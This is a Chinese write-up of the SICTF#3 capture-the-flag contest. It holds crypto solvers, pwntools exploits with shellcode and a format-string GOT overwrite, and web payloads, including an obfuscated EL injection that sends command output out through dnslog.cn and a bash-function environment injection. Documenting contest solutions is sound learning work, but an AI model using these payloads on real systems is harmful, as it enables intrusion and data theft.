

# SICTF#3 WriteUp - 先知社区

SICTF#3 WriteUp

- - -

# MISC

## \[签到\]签到

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113246-e132ce34-d069-1.png)

## 真签到

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113250-e3d1ec06-d069-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113254-e6414dc4-d069-1.png)

wav 用 AU 看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113259-e922c46e-d069-1.png)

cloacked-pixel

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113303-eb807d82-d069-1.png)

## GeekChallege

根据 tip

```plain
Tip:len(array)=5&&len(passwd)=114
```

得知有 5 个字符，passwd 长度为 114，直接爆破 + 手搓

```plain
#coding=utf-8
import os
import sys
import time
from pwn import *
from ctypes import *
from tqdm import *

# context.log_level='debug'
# context.arch='amd64'

#p=process('./pwn')
p=remote('yuanshen.life',35308)

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()

ru('>')
passwd=''

for i in trange(32,128):
    tmp = chr(i) * 114
    sl(tmp)
    res = ru('\n')
    if b'1' in res:
        print(tmp)
        print(res)

itr()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113311-f04031f0-d069-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113314-f1dfc908-d069-1.png)

## WHO?WHO?WHO

一开始密码爆破

```plain
qweqwe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113319-f4b051de-d069-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113322-f6eaa602-d069-1.png)

rabbit

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113328-fa974c60-d069-1.png)

从 GitHub 找脚本

[https://github.com/omemishra/DNA-Genetic-Python-Scripts-CTF/blob/master/dnacode.py](https://github.com/omemishra/DNA-Genetic-Python-Scripts-CTF/blob/master/dnacode.py)

解密即可

## 日志分析 2

根据题目要求挨个看即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113334-fdf991ba-d069-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113338-001decc0-d06a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113342-027f8c80-d06a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113346-0552a6e0-d06a-1.png)

```plain
SICTF{10.11.35.95|暴力破解|sqlmap|1.2.4.18|蚁剑|2.1}
```

## 神秘的流量

附件是一个典型的 CS 流量，追踪 HTTP 流发现一个 dmp.zip，从 github 上找了个项目  
[https://github.com/DidierStevens/Beta](https://github.com/DidierStevens/Beta)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113352-08c08680-d06a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113357-0b583e42-d06a-1.png)

# Crypto

## \[签到\]Vigenere

维吉尼亚爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113402-0eda60cc-d06a-1.png)

## easyLattice

exp:

```plain
from Crypto.Util.number import *
from gmpy2 import *
h = 9848463356094730516607732957888686710609147955724620108704251779566910519170690198684628685762596232124613115691882688827918489297122319416081019121038443
p = 11403618200995593428747663693860532026261161211931726381922677499906885834766955987247477478421850280928508004160386000301268285541073474589048412962888947

D=2**(512//2)
Dh=D*h
Dp=D*p
v1 = vector(ZZ, [1, Dh])
v2 = vector(ZZ, [0, Dp])
m = matrix([v1,v2])
f, g = m.LLL()[0]
print(f, g)
print(long_to_bytes(abs(int(f))))
```

## 签到，确信！

exp

```plain
from Crypto.Util.number import *

n = 8361361624563191168612863710516449028280757632934603412143152925186847721821552879338608951120157631182699762833743097837368740526055736516080136520584848113137087581886426335191207688807063024096128001406698217998816782335655663803544853496060418931569545571397849643826584234431049002394772877263603049736723071392989824939202362631409164434715938662038795641314189628730614978217987868150651491343161526447894569241770090377633602058561239329450046036247193745885174295365633411482121644408648089046016960479100220850953009927778950304754339013541019536413880264074456433907671670049288317945540495496615531150916647050158936010095037412334662561046016163777575736952349827380039938526168715655649566952708788485104126900723003264019513888897942175890007711026288941687256962012799264387545892832762304320287592575602683673845399984039272350929803217492617502601005613778976109701842829008365226259492848134417818535629827769342262020775115695472218876430557026471282526042545195944063078523279341459199475911203966762751381334277716236740637021416311325243028569997303341317394525345879188523948991698489667794912052436245063998637376874151553809424581376068719814532246179297851206862505952437301253313660876231136285877214949094995458997630235764635059528016149006613720287102941868517244509854875672887445099733909912598895743707420454623997740143407206090319567531144126090072331
e = 65537
c = 990174418341944658163682355081485155265287928299806085314916265580657672513493698560580484907432207730887132062242640756706695937403268682912083148568866147011247510439837340945334451110125182595397920602074775022416454918954623612449584637584716343806255917090525904201284852578834232447821716829253065610989317909188784426328951520866152936279891872183954439348449359491526360671152193735260099077198986264364568046834399064514350538329990985131052947670063605611113730246128926850242471820709957158609175376867993700411738314237400038584470826914946434498322430741797570259936266226325667814521838420733061335969071245580657187544161772619889518845348639672820212709030227999963744593715194928502606910452777687735614033404646237092067644786266390652682476817862879933305687452549301456541574678459748029511685529779653056108795644495442515066731075232130730326258404497646551885443146629498236191794065050199535063169471112533284663197357635908054343683637354352034115772227442563180462771041527246803861110504563589660801224223152060573760388045791699221007556911597792387829416892037414283131499832672222157450742460666013331962249415807439258417736128976044272555922344342725850924271905056434303543500959556998454661274520986141613977331669376614647269667276594163516040422089616099849315644424644920145900066426839607058422686565517159251903275091124418838917480242517812783383
k=7

R = Zmod(n)["x"]
while True:
    Q = R.quo(R.random_element(k))
    pp = gcd(ZZ(list(Q.random_element() ^ n)[1]), n)
    if pp != 1:
        qq = sum([pp**i for i in range(k)])
        rr = n // (pp * qq)
        assert n == pp * qq * rr
        break
phi = (pp - 1) * (qq - 1) * (rr - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(int(m)))
```

## gggcccddd

half-god

```plain
import sys
from Crypto.Util.number import *

n = 71451784354488078832557440841067139887532820867160946146462765529262021756492415597759437645000198746438846066445835108438656317936511838198860210224738728502558420706947533544863428802654736970469313030584334133519644746498781461927762736769115933249195917207059297145965502955615599481575507738939188415191


def HGCD(a, b):
    if 2 * b.degree() <= a.degree() or a.degree() == 1:
        return 1, 0, 0, 1
    m = a.degree() // 2
    a_top, a_bot = a.quo_rem(x ^ m)
    b_top, b_bot = b.quo_rem(x ^ m)
    R00, R01, R10, R11 = HGCD(a_top, b_top)
    c = R00 * a + R01 * b
    d = R10 * a + R11 * b
    q, e = c.quo_rem(d)
    d_top, d_bot = d.quo_rem(x ^ (m // 2))
    e_top, e_bot = e.quo_rem(x ^ (m // 2))
    S00, S01, S10, S11 = HGCD(d_top, e_top)
    RET00 = S01 * R00 + (S00 - q * S01) * R10
    RET01 = S01 * R01 + (S00 - q * S01) * R11
    RET10 = S11 * R00 + (S10 - q * S11) * R10
    RET11 = S11 * R01 + (S10 - q * S11) * R11
    return RET00, RET01, RET10, RET11


def GCD(a, b):
    print(a.degree(), b.degree())
    q, r = a.quo_rem(b)
    if r == 0:
        return b
    R00, R01, R10, R11 = HGCD(a, b)
    c = R00 * a + R01 * b
    d = R10 * a + R11 * b
    if d == 0:
        return c.monic()
    q, r = c.quo_rem(d)
    if r == 0:
        return d
    return GCD(d, r)

P.<x> = PolynomialRing(Zmod(n))
sys.setrecursionlimit(500000)

e = 65537
c1 = 60237305053182363686066000860755970543119549460585763366760183023969060529797821398451174145816154329258405143693872729068255155086734217883658806494371105889752598709446068159151166250635558774937924668506271624373871952982906459509904548833567117402267826477728367928385137857800256270428537882088110496684
c2 = 20563562448902136824882636468952895180253983449339226954738399163341332272571882209784996486250189912121870946577915881638415484043534161071782387358993712918678787398065688999810734189213904693514519594955522460151769479515323049821940285408228055771349670919587560952548876796252634104926367078177733076253

f = (x)^e - c1
g = (233*x+9527)^e - c2

km = GCD(f,g)
m = -km.monic()[0]
print(m)
print(long_to_bytes(int(m)))
```

## SuperbRSA

exp

```plain
from Crypto.Util.number import *
import gmpy2

n= 19006830358118902392432453595802675566730850352890246995920642811967821259388009049803513102750594524106471709641202019832682438027312468849299985832675191795417160553379580813410722359089872519372049229233732405993062464286888889084640878784209014165871696882564834896322508054231777967011195636564463806270998326936161449009988434249178477100127347406759932149010712091376183710135615375272671888541233275415737155953323133439644529709898791881795186775830217884663044495979067807418758455237701315019683802437323177125493076113419739827430282311018083976114158159925450746712064639569301925672742186294237113199023
c1= 276245243658976720066605903875366763552720328374098965164676247771817997950424168480909517684516498439306387133611184795758628248588201187138612090081389226321683486308199743311842513053259894661221013008371261704678716150646764446208833447643781574516045641493770778735363586857160147826684394417412837449465273160781074676966630398315417741542529612480836572205781076576325382832502694868883931680720558621770570349864399879523171995953720198118660355479626037129047327185224203109006251809257919143284157354935005710902589809259500117996982503679601132486140677013625335552533104471327456798955341220640782369529
c2= 11734019659226247713821792108026989060106712358397514827024912309860741729438494689480531875833287268454669859568719053896346471360750027952226633173559594064466850413737504267807599435679616522026241111887294138123201104718849744300769676961585732810579953221056338076885840743126397063074940281522137794340822594577352361616598702143477379145284687427705913831885493512616944504612474278405909277188118896882441812469679494459216431405139478548192152811441169176134750079073317011232934250365454908280676079801770043968006983848495835089055956722848080915898151352242215210071011331098761828031786300276771001839021

e1=55
e2=200

print(gmpy2.gcd(e1,e2))

#m**5<n =>m 很小

def ext_euclid(a, b):
    if b == 0:
        return 1, 0, a
    else:
        x, y, q = ext_euclid(b, a % b)  # q = gcd(a, b) = gcd(b, a%b)
        x, y = y, (x - (a // b) * y)
        return x, y, q
print(ext_euclid(e1,e2))

def same_mod(n, e1, e2, c1, c2):
    s, t, q = ext_euclid(e1, e2)
    m = (gmpy2.powmod(c1, s, n) * gmpy2.powmod(c2, t, n)) % n  # powmod 进行大数运算
    return m


if __name__ == '__main__':
    tmp = gmpy2.gcd(e1, e2)
    e1, e2 = e1 // tmp, e2 // tmp
    m = same_mod(n, e1, e2, c1, c2)
    truem = gmpy2.iroot(m, tmp)[0]
    print(long_to_bytes(truem))
```

# PWN

## stack

```plain
LODWORD 绕过后，strdup 会将参数写入 backdoor
```

```plain
所以绕过后，直接并联执行
```

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('yuanshen.life',35907)

def duan():
    gdb.attach(p)
    pause()

ru('Give me the length: ')
sl('32768')
ru('Give me your command: ')
ret = 0x401016
#duan()
pl = b'give me flag;$0\x00'+b'\x00'*0x48+p64(ret)+p64(0x4011B6)
s(pl)

itr()
```

## Easy\_SI

```plain
blind pwn，dump 下来找的_IO_2_1_stdout_，泄露 libc 后改 got 表
```

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('yuanshen.life',35854)

begin=0x400000
bin = b''
def leak(addr):
    pl="%6$sdump"+p64(addr)
    sla("And now let's start the game!!!\n",pl)
    data=p.recvuntil('dump',drop=True)
    #data = p.recvrepeat(0.2)
    return data

try:
    while True:

        data = leak(begin)
        begin = begin+len(data)
        bin += data
        if len(data)==0:
            begin+=1
            bin += '\x00'

except:
    print("finish")
finally:
    print '[+]',len(bin)
    with open('dump_bin','wb') as f:
        f.write(bin)

p.interactive()
```

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
p=remote('yuanshen.life',37326)
libc=ELF('./libc.so.6')
ru("And now let's start the game!!!\n")
sl('%11$p')
libc_base=int(r(14),16)-libc.sym['_IO_2_1_stdout_']
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 

ru("And now let's start the game!!!\n")

printf=0x404030

pl=fmtstr_payload(6,{printf:system})
sl(pl)
ru("And now let's start the game!!!\n")
sl('/bin/sh\x00')
itr()
```

## bugzapper

```plain
0x55-0x65 的系统调用，逐个尝试后，发现需要输入 11 字节
```

```plain
先构造 11 字节的 read，然后直接执行即可
```

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('yuanshen.life',37499)

def duan():
    gdb.attach(p)
    pause()

ru('Is there any bug in your code? Let me help you!\n')
shellcode1 = asm(shellcraft.sh())
#s(asm('xor eax, eax; push 0x60; pop rdx; syscall'))
shellcode = asm('''
    push rax
    pop rsi
    add rdx,0x50
    xor eax,eax
    syscall
''')
#duan()
sl(shellcode)
shell = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
pl='\x90'*0xa
pl+=shell
sl(pl)

itr()
```

# WEB

## 100upload

可以上传.user.ini

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113422-1a421810-d06a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113425-1c90a974-d06a-1.png)

短标签绕过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113430-1f6a5262-d06a-1.png)

之后直接访问不行，考虑文件包含

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113436-22a8c242-d06a-1.png)

## hacker

可以延时注入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113441-259ece60-d06a-1.png)

直接上脚本爆

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113448-29e494d2-d06a-1.png)

## Oyst3rPHP

fuzz 得到 www.zip

之后源码发现一些条件，绕过即可

之后打一个 tp6.03 反序列化链

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113456-2e8be5f8-d06a-1.png)

## \[进阶\]elInjection

El 表达式注入 bypass

参考文章：[【2020 年】CTF Web 問題の攻撃手法まとめ - こんとろーるしーこんとろーるぶい (hatenablog.com)](#%E3%82%84%E3%82%92%E4%BD%BF%E7%94%A8%E3%81%9B%E3%81%9A%E3%81%ABExpression-Language-Injection%E3%81%A7%E4%BB%BB%E6%84%8F%E3%81%AEOS%E3%82%B3%E3%83%9E%E3%83%B3%E3%83%89%E5%AE%9F%E8%A1%8C)

采用如下 payload:

```plain
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")}.
```

由于有关键字过滤，所以我们用上诉方法 bypass

```plain
import sys
payload = "java.lang.Runtime.getRuntime().exec(\"bash -c {echo,Y3VybCBgL3JlYWRmbGFnYC5udzFybDkuZG5zbG9nLmNu}|{base64,-d}|{bash,-i}\")"
print ("true.toString().charAt(0).toChars(%d)[0].toString()" % ord(payload[0]), end='')
for i in range(1, len(payload)):
  print (".concat(true.toString().charAt(0).toChars(%d)[0].toString())" % ord(payload[i]), end='')
print ("")
```

利用上诉分别构造：

```plain
javax.script.ScriptEngineManager，和 java.lang.Runtime.getRuntime().exec(\"bash -c {echo,Y3VybCBgL3JlYWRmbGFnYC5udzFybDkuZG5zbG9nLmNu}|{base64,-d}|{bash,-i}
```

实现 dns 数据外带

Payload:

ABC ${true.getClass().forName(true.toString().charAt(0).toChars(106)\[0\].toString().concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(118)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(120)\[0\].toString()).concat(true.toString().charAt(0).toChars(46)\[0\].toString()).concat(true.toString().charAt(0).toChars(115)\[0\].toString()).concat(true.toString().charAt(0).toChars(99)\[0\].toString()).concat(true.toString().charAt(0).toChars(114)\[0\].toString()).concat(true.toString().charAt(0).toChars(105)\[0\].toString()).concat(true.toString().charAt(0).toChars(112)\[0\].toString()).concat(true.toString().charAt(0).toChars(116)\[0\].toString()).concat(true.toString().charAt(0).toChars(46)\[0\].toString()).concat(true.toString().charAt(0).toChars(83)\[0\].toString()).concat(true.toString().charAt(0).toChars(99)\[0\].toString()).concat(true.toString().charAt(0).toChars(114)\[0\].toString()).concat(true.toString().charAt(0).toChars(105)\[0\].toString()).concat(true.toString().charAt(0).toChars(112)\[0\].toString()).concat(true.toString().charAt(0).toChars(116)\[0\].toString()).concat(true.toString().charAt(0).toChars(69)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(103)\[0\].toString()).concat(true.toString().charAt(0).toChars(105)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(77)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(103)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(114)\[0\].toString())).newInstance().getEngineByName("JavaScript").eval(true.toString().charAt(0).toChars(106)\[0\].toString().concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(118)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(46)\[0\].toString()).concat(true.toString().charAt(0).toChars(108)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(103)\[0\].toString()).concat(true.toString().charAt(0).toChars(46)\[0\].toString()).concat(true.toString().charAt(0).toChars(82)\[0\].toString()).concat(true.toString().charAt(0).toChars(117)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(116)\[0\].toString()).concat(true.toString().charAt(0).toChars(105)\[0\].toString()).concat(true.toString().charAt(0).toChars(109)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(46)\[0\].toString()).concat(true.toString().charAt(0).toChars(103)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(116)\[0\].toString()).concat(true.toString().charAt(0).toChars(82)\[0\].toString()).concat(true.toString().charAt(0).toChars(117)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(116)\[0\].toString()).concat(true.toString().charAt(0).toChars(105)\[0\].toString()).concat(true.toString().charAt(0).toChars(109)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(40)\[0\].toString()).concat(true.toString().charAt(0).toChars(41)\[0\].toString()).concat(true.toString().charAt(0).toChars(46)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(120)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(99)\[0\].toString()).concat(true.toString().charAt(0).toChars(40)\[0\].toString()).concat(true.toString().charAt(0).toChars(34)\[0\].toString()).concat(true.toString().charAt(0).toChars(98)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(115)\[0\].toString()).concat(true.toString().charAt(0).toChars(104)\[0\].toString()).concat(true.toString().charAt(0).toChars(32)\[0\].toString()).concat(true.toString().charAt(0).toChars(45)\[0\].toString()).concat(true.toString().charAt(0).toChars(99)\[0\].toString()).concat(true.toString().charAt(0).toChars(32)\[0\].toString()).concat(true.toString().charAt(0).toChars(123)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(99)\[0\].toString()).concat(true.toString().charAt(0).toChars(104)\[0\].toString()).concat(true.toString().charAt(0).toChars(111)\[0\].toString()).concat(true.toString().charAt(0).toChars(44)\[0\].toString()).concat(true.toString().charAt(0).toChars(89)\[0\].toString()).concat(true.toString().charAt(0).toChars(51)\[0\].toString()).concat(true.toString().charAt(0).toChars(86)\[0\].toString()).concat(true.toString().charAt(0).toChars(121)\[0\].toString()).concat(true.toString().charAt(0).toChars(98)\[0\].toString()).concat(true.toString().charAt(0).toChars(67)\[0\].toString()).concat(true.toString().charAt(0).toChars(66)\[0\].toString()).concat(true.toString().charAt(0).toChars(103)\[0\].toString()).concat(true.toString().charAt(0).toChars(76)\[0\].toString()).concat(true.toString().charAt(0).toChars(51)\[0\].toString()).concat(true.toString().charAt(0).toChars(74)\[0\].toString()).concat(true.toString().charAt(0).toChars(108)\[0\].toString()).concat(true.toString().charAt(0).toChars(89)\[0\].toString()).concat(true.toString().charAt(0).toChars(87)\[0\].toString()).concat(true.toString().charAt(0).toChars(82)\[0\].toString()).concat(true.toString().charAt(0).toChars(109)\[0\].toString()).concat(true.toString().charAt(0).toChars(98)\[0\].toString()).concat(true.toString().charAt(0).toChars(71)\[0\].toString()).concat(true.toString().charAt(0).toChars(70)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(89)\[0\].toString()).concat(true.toString().charAt(0).toChars(67)\[0\].toString()).concat(true.toString().charAt(0).toChars(53)\[0\].toString()).concat(true.toString().charAt(0).toChars(51)\[0\].toString()).concat(true.toString().charAt(0).toChars(89)\[0\].toString()).concat(true.toString().charAt(0).toChars(88)\[0\].toString()).concat(true.toString().charAt(0).toChars(86)\[0\].toString()).concat(true.toString().charAt(0).toChars(116)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(109)\[0\].toString()).concat(true.toString().charAt(0).toChars(85)\[0\].toString()).concat(true.toString().charAt(0).toChars(117)\[0\].toString()).concat(true.toString().charAt(0).toChars(90)\[0\].toString()).concat(true.toString().charAt(0).toChars(71)\[0\].toString()).concat(true.toString().charAt(0).toChars(53)\[0\].toString()).concat(true.toString().charAt(0).toChars(122)\[0\].toString()).concat(true.toString().charAt(0).toChars(98)\[0\].toString()).concat(true.toString().charAt(0).toChars(71)\[0\].toString()).concat(true.toString().charAt(0).toChars(57)\[0\].toString()).concat(true.toString().charAt(0).toChars(110)\[0\].toString()).concat(true.toString().charAt(0).toChars(76)\[0\].toString()).concat(true.toString().charAt(0).toChars(109)\[0\].toString()).concat(true.toString().charAt(0).toChars(78)\[0\].toString()).concat(true.toString().charAt(0).toChars(117)\[0\].toString()).concat(true.toString().charAt(0).toChars(125)\[0\].toString()).concat(true.toString().charAt(0).toChars(124)\[0\].toString()).concat(true.toString().charAt(0).toChars(123)\[0\].toString()).concat(true.toString().charAt(0).toChars(98)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(115)\[0\].toString()).concat(true.toString().charAt(0).toChars(101)\[0\].toString()).concat(true.toString().charAt(0).toChars(54)\[0\].toString()).concat(true.toString().charAt(0).toChars(52)\[0\].toString()).concat(true.toString().charAt(0).toChars(44)\[0\].toString()).concat(true.toString().charAt(0).toChars(45)\[0\].toString()).concat(true.toString().charAt(0).toChars(100)\[0\].toString()).concat(true.toString().charAt(0).toChars(125)\[0\].toString()).concat(true.toString().charAt(0).toChars(124)\[0\].toString()).concat(true.toString().charAt(0).toChars(123)\[0\].toString()).concat(true.toString().charAt(0).toChars(98)\[0\].toString()).concat(true.toString().charAt(0).toChars(97)\[0\].toString()).concat(true.toString().charAt(0).toChars(115)\[0\].toString()).concat(true.toString().charAt(0).toChars(104)\[0\].toString()).concat(true.toString().charAt(0).toChars(44)\[0\].toString()).concat(true.toString().charAt(0).toChars(45)\[0\].toString()).concat(true.toString().charAt(0).toChars(105)\[0\].toString()).concat(true.toString().charAt(0).toChars(125)\[0\].toString()).concat(true.toString().charAt(0).toChars(34)\[0\].toString()).concat(true.toString().charAt(0).toChars(41)\[0\].toString()))}

打入即可接收到 flag:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113511-37c1e9ce-d06a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113516-3af442b8-d06a-1.png)

## EZ\_SSRF

```plain
<?php
class client{
    public $url;
    public $payload;
    public function __destruct()
    {
        get($this->url);
    }
}
$A = new client();
$A -> url = "file:///var/www/html/flag.php";
echo serialize($A);
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113522-3e080f52-d06a-1.png)

## Not just unserialize

putenv 注入：

正则匹配的地方从头到尾匹配没有匹配大小写，可以进行大小写绕过，然后通过注入 BASH\_FUNC\_echo%%覆盖 echo 函数，当执行 echo 的时候执行恶意代码

```plain
get[BASH_FUNC_echo%25%25]=()%20{%20cat%20/ffffllllllaaaaaaaaaaaaaaaaaaggggg;%20}
```

反序列化 exp：

```plain
<?php

highlight_file(__FILE__);
class start
{
    public $welcome;
    public $you;
}

class SE{
    public $year;
}

class CR {
    public $last;
    public $newyear;
}

class ET{
}
$A = new start();
$A -> welcome = new SE();
$A ->welcome->year=new CR();
$A ->welcome->year->newyear = "Worries";
$A ->welcome->year->last=new ET;
echo base64_encode(serialize($A));
?>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113528-41b9cbf4-d06a-1.png)

# Re

## \[签到\]Baby\_C++

strings 搜即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221113532-440d308a-d06a-1.png)

# OSINT

## \[签到\]OSINT 签到

谷歌识图搜

## 真的签到

谷歌识图

